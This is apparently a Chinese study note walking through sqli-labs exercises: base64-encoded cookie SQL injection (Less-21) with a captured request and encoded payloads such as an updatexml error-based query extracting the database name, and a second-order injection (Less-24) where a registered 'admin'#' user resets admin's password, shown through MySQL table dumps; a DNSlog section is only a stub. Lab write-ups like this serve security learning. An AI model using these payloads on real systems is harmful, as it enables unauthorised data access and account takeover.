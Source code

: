 <a name="eY9HZ"></a>
### 1、加解密注入
sqlilabs-less21-cookie&加解密注入(实际案例)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1625197034253-5c830239-d236-4872-827d-e2494cb1134f.png#clientId=uf34b4dee-32b0-4&from=paste&height=251&id=u6c6ab42d&originHeight=386&originWidth=1109&originalType=binary&ratio=2&size=27393&status=done&style=none&taskId=udf0bb4cd-86d9-48ce-a22d-35483a03dd4&width=720.5)<br />抓取cookie数据包
```bash
GET /Less-21/index.php HTTP/1.1
Host: 10.1.1.133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://10.1.1.133/Less-21/index.php
Connection: close
Cookie: uname=YWRtaW4%3D
Upgrade-Insecure-Requests: 1
```
`YWRtaW4%3D`这是一个base64加密的字符串其中%3D是编码中的`=`符号，把他发送到编码模块当中解密,得到明文<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1625197175542-5b72f5d8-368c-4cf5-ac31-570c9ba47559.png#clientId=uf34b4dee-32b0-4&from=paste&height=195&id=u5870cbc2&originHeight=390&originWidth=1670&originalType=binary&ratio=2&size=19837&status=done&style=none&taskId=ucb857c7d-6607-42e9-946e-1970a2e7181&width=835)<br />发现这个是注入点需要将原来的注入方式重新加密发送给服务器。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1625197480831-2345af38-58ae-4469-8e6c-e57132d5efad.png#clientId=uf34b4dee-32b0-4&from=paste&height=198&id=u4061bb3c&originHeight=395&originWidth=1675&originalType=binary&ratio=2&size=20899&status=done&style=none&taskId=uf53a6ce7-91f5-4751-baa3-50f4d34de78&width=837.5)<br />也就是说`admin' and 1=1`加密之后的值是`YWRtaW4nIGFuZCAxPTE=`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1625197601823-b7d21846-9977-4b78-be84-49fb39c323f4.png#clientId=uf34b4dee-32b0-4&from=paste&height=302&id=u0db8180c&originHeight=603&originWidth=1868&originalType=binary&ratio=2&size=109795&status=done&style=none&taskId=u23bc0daa-f9c5-497b-b872-7b963767659&width=934)<br />获取数据库名称`admin' or updatexml(1,concat(0x7e,(database())),0) or '`加密后cookie值`Cookie: uname=YWRtaW4nIG9yIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChkYXRhYmFzZSgpKSksMCkgb3IgJwo=`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1625198302828-b0a69d09-5ac3-48c5-8de9-fce71dd924de.png#clientId=uf34b4dee-32b0-4&from=paste&height=211&id=u33ecf70d&originHeight=421&originWidth=1674&originalType=binary&ratio=2&size=31322&status=done&style=none&taskId=ucbe63c20-2478-4815-8d2e-cdcab3139b7&width=837)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1625198355098-0b833318-e459-4fbd-be31-28ef8d3356f2.png#clientId=uf34b4dee-32b0-4&from=paste&height=339&id=u735cf530&originHeight=677&originWidth=1868&originalType=binary&ratio=2&size=296160&status=done&style=none&taskId=u44b62b2c-a234-48cb-a3a3-5dbf4935f0a&width=934)



<a name="Y3YoV"></a>
### 2、二次注入
二次注入一般是用于白盒测试、黑盒测试就算是找到注入也没办法攻击。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1625199336305-79a73dff-0292-4899-9ff3-15f8e4f6110a.png#clientId=uf34b4dee-32b0-4&from=paste&id=u4b48bcac&originHeight=556&originWidth=1142&originalType=binary&ratio=2&size=466194&status=done&style=none&taskId=u0f317bb1-cfa7-40a7-bd86-23fa47d3f49)<br />sqlilabs-less24-post登陆框&二次注入<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1625361677510-23a50145-6828-434f-a9e9-53f12db3156e.png#clientId=u495c2d10-6d82-4&from=paste&id=u9901992d&originHeight=578&originWidth=911&originalType=binary&ratio=1&size=209904&status=done&style=none&taskId=u01a511f0-46ec-4790-93da-7c2579ea4b3)<br />数据库中查询
```bash
mysql> select * from users;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
| 15 | admin'#  | admin      |
+----+----------+------------+
14 rows in set (0.00 sec)
```
登录用户修改密码<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1625361805412-1b2dac42-8eb0-42ce-810c-ada6bb1d6643.png#clientId=u495c2d10-6d82-4&from=paste&id=u705d0437&originHeight=652&originWidth=1215&originalType=binary&ratio=1&size=388741&status=done&style=none&taskId=u4d6ba190-4c4d-410d-be87-72e690419d3)
```bash
mysql> select * from users;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | 123456     |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
| 15 | admin'#  | admin      |
+----+----------+------------+
14 rows in set (0.00 sec)

```
最后我们看到的是将admin的账户密码修改为了123456而admin'#并没有发生改变，原因是代码执行的过程中将'#没有过滤直接带入执行导致'与前面的代码闭合而#将后面的代码给注释。
<a name="ID1mt"></a>
### 3、dnslog注入

涉及资源：[http://ceye.io](http://ceye.io)<br />参考资料：[https://www.cnblogs.com/xhds/p/12322839.html](https://www.cnblogs.com/xhds/p/12322839.html)<br />使用DnsLog盲注仅限于windos环境。

不知道啥子个情况dnslog在windows还是linux上就是没法运行缺少各种的库文件。所以先暂时放一段

<a name="ZT2SQ"></a>
### 4、中转注入

